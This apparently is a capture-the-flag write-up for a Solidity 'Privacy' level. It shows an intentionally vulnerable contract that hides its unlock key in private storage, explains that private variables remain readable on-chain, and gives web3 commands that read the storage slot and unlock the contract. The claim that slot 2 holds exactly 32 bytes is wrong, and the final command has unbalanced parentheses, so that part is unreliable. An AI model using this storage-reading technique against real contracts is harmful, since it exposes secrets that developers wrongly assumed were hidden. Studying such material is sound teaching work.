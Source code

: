 <img src="privacy.png" alt="privacy" />

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

<hr />

# Hack


Nothing is private at Blockchain as anything on blockchain can be read even if it has private keyword.


We can store atmost 2^256 state variables in the storage and we can store upto 32bytes in a slot. In this Privacy contract bool locked takes up 1byte and stored in slot 0 and uint256 ID takes 32 bytes and cannot be stored in slot 0 so it is stored in slot 1. flattening, denomination and awkwardness is stored in same slot 2 as they take exactly 32 bytes. And finally the fixed bytes32 array stores 3 items in slot 3 to 5 as each item is 32 bytes. If it was the dynamic array the storing of item would have been different.

```
contract Privacy {

  bool public locked = true; // slot 0
  uint256 public ID = block.timestamp; // slot 1
  uint8 private flattening = 10; // slot 2
  uint8 private denomination = 255; // slot 2
  uint16 private awkwardness = uint16(now); // slot 2
  bytes32[3] private data; // slot 3,4,5

  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }
}```

So finally we can run this command to unlock and set locked to false.
await web3.eth.getStorageAt(contract.address, 5)).slice(0,34) gets the 16 bytes of data[2] as it is at 5th slot.
slice(0,34) is done as 0x is present at start to denote the hex.

```
await contract.unlock(await web3.eth.getStorageAt(contract.address, 5)).slice(0,34));
await contract.locked();
```